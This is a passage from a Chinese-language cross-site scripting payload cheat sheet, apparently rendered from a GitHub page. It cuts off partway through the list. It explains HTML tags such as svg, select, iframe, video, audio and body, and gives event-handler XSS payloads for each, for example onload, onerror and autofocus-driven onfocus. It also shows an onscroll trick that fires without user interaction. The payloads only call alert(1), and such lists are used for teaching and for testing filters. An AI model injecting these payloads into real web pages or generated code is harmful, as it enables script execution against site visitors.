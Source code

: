 ### 5.svg 标签


```js
<svg> 标签用来在HTML页面中直接嵌入SVG 文件的代码。
<svg onload=alert(1);>
```

### 6.select 标签


```js
<select> 标签用来创建下拉列表。
<select onfocus=alert(1)></select>
通过autofocus属性规定当页面加载时元素应该自动获得焦点，这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户去触发：
<select onfocus=alert(1) autofocus>
```

### 7.iframe 标签

```js
<iframe> 标签会创建包含另外一个文档的内联框架。
<iframe onload=alert(1);></iframe>
```

### 8.video 标签


```js
<video> 标签定义视频，比如电影片段或其他视频流。
<video><source onerror=alert(1)>
```

### 9.audio 标签


```js
<audio> 标签定义声音，比如音乐或其他音频流。
<audio src=x  onerror=alert(1);>
```

### 10.body 标签

```js
<body> 标签定义文档的主体。
<body onload=alert(1);>
```

onscroll 事件在元素滚动条在滚动时触发。我们可以利用换行符以及autofocus，当用户滑动滚动条的时候自动触发，无需用户去点击触发：

```js
<body
onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```

### 11.textarea 标签
